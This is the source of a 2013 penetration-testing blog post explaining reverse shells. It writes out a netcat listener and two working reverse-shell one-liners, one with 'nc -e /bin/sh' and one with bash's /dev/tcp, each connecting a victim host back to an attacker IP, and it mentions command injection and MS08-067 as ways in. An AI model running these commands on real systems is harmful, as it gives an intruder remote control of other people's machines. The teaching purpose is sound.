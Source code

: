 ```yaml
---
title: "Reverse shell methods"
date: "2013-09-30T12:00:00-04:00"
url: "/posts/reverse-shell-methods"
categories:
- infosec
tags:
- shells
- pentesting
summary: "Methods for obtaining reverse shells"
---
```

Welcome and Hello!  Let's get started...  Today's topic: Reverse Shells

# What is a Reverse Shell?

A reverse shell is a method by which penetration testers (and bad guys!) can
gain a shell, or user command access, on a target.  They are very useful because
they initiate communication from a trusted host inside the perimeter to a host
outside of the perimeter.  This means a reverse shell has the capability to
bypass firewall ingress rules, which would prevent incoming connections - aka
bind shells - from reaching into the network to gain user command access on a
host.

See this [SANS paper][SANS] by Richard Hammer for a good overview of Reverse
Shells.

# Gaining a Reverse Shell

The first thing I do is start my listener.  This listener is crucial, as it
waits for commands I will send it from my victim's host and then do something
useful with them.

On my attack box (10.25.43.35):

```bash
$ nc -lv 8080
```
{{< figure src="/images/2013/09-30-1.png" caption="netcat listener" >}}

Now, netcat (or nc) is listening on port 8080 for incoming connections (-l) and
will print them verbosely (-v) to standard output.  All of the reverse shell
methods detailed below will reach back to this listener to establish a
connection with my attack host.

On the target's box: Here, I may or may not have several options for
communicating back to my host.  I'll outline two methods, using netcat and bash,
which are common binaries found on a target Unix box.

{{% alert note %}}
Note: These commands all work under the assumption I can execute commands in a
limited fashion on my victim's host already.  "Why go through the trouble of
opening a reverse shell if you can already access commands on your target?"
would be a valid question.

During a penetration test, you may discover you have the limited ability to
execute a command on a remote host.  For instance, an un-sanitized text entry
box on a website may allow you to pass a command the web server wasn't
expecting.  Perhaps you've tricked a user into clicking on a malicious link, or
opening a malicious file which executes a small set of commands.  Maybe your
target is running Windows XP and hasn't patched against [MS08-067][MS08067]
(still my favorite exploit of all time :D).
{{% /alert %}}

Whatever the reason you don't have full interactive access to your target, but
you want it.  You crave it.  I do, too!

Using netcat:

```bash
$ nc -e /bin/sh 10.25.43.35 8080
```

This causes my victim's box to execute /bin/sh and connect to my attacker's box
over port 8080.  As you can see in the screenshot, I'm not getting a lot of
feedback in the shell (note: no prompt)

{{< figure src="/images/2013/09-30-2.png" caption="connect back netcat" >}}

Using bash:

```bash
$ bash -i > /dev/tcp/10.25.43.35/8080 0<&1 2>&1
```

This uses the bash shell's I/O redirection and built-in method for TCP
connections to open a reverse shell.  I particularly like this method because
the syntax gives me a headache (I'm still trying to wrap my head around this
level of [I/O redirection][IOredir]) and because nearly every Unix box has bash
installed.

{{< figure src="/images/2013/09-30-3.png" caption="connect back bash" >}}

If your victim's host has python, perl, php, or ruby installed - which is very
likely - you can check out [pentestmonkey's cheat sheet][ptmonkey] for examples
of how to gain reverse shells using those methods.

[SANS]: http://www.sans.org/reading-room/whitepapers/covert/inside-out-vulnerabilities-reverse-shells-1663?show=inside-out-vulnerabilities-reverse-shells-1663&cat=covert
[ptmonkey]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[IOredir]: http://www.tldp.org/LDP/abs/html/io-redirection.html#IOREDIRREF
[MS08067]: http://technet.microsoft.com/en-us/security/bulletin/ms08-067
